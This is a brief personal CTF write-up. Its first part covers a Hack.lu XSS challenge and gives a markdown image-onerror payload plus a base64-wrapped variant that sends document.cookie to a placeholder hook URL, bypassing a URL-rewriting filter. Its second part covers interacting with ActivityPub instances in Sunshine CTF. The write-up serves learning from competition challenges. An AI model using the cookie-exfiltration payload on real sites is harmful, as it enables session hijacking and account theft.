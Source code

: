 Learnt thing from Hacklu:
There was only one problem solved by us in Hacklu ctf. COuld not find any more writeups for it currently. THe solved question was a XSS cookie exfiltration challenge 
in which the payload followe this kind of structure: xss input > markdown parser > custom url replace function > innerhtml.
First need an XSS payload for markdown, next need to bypass the url replae funtion which replaces any url in the payload with their local url, preventing exfiltration.

The final payload for CSS POC was: **![catshttps://onerror=alert(1)//]()
From what I understand this is just the normal XSS payload <img src=x onerror=alert(1)> in markdown form because markdown uses this syntax to load images: ![alt text](image url)

Once we get a succesful alert using this we can exfiltrate the cookie and to bypass the url replace fundtion we use base64 encoding instead of directly putting the payload:
`**![catshttps://onerror=eval(atob('d2l=='))//]()` where d2l is jsut placeholder for base64 encoded paylad of the form: window.open(`{HOOK_URL}?x=${btoa(document.cookie)}`);



The more interesting thing learnt was from Sunshine CTF where we had to interact with accounts on fedi instances which used ActivityPub,a decentralized social networking protocol.
We had to read the docs and figure out how to interact with users on a particular instances set up for the CTF. The main thing was using a particular Accept header when sending the request: `'Accept': 'application/activity+json'`.

Also after the ctf got over got to know about https://browser.pub/ which is a directoy of fedi instances and could have helped us get the flag directly because it was just in the profile page of the user directly.